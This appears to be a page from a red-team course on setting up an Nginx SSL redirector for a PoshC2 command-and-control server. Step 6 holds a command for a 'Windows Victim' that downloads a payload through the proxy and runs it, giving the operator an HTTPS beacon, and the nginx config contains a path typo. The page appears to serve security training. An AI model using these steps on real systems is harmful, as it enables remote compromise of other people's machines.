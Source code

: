 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs from our project folder to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<username>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules underneath our rules for port 80 comms
    ```nginx
    server {
        listen 443;
        server_name <ubuntu_server_ip>

        ssl_certificate /etc/nginx/posh.crt;
        ssl_certificate_key /etc/nginc/posh.key;
        ssl on;

        location / {
            proxy_pass https://192.168.178.128;
        }
    }
    ```

5. Now reload nginx
    ```
    systemctl restart nginx.service
    ```
6. On our Windows Victim, lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://<posh or proxy IP>/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 

## [Return to course page](README.md)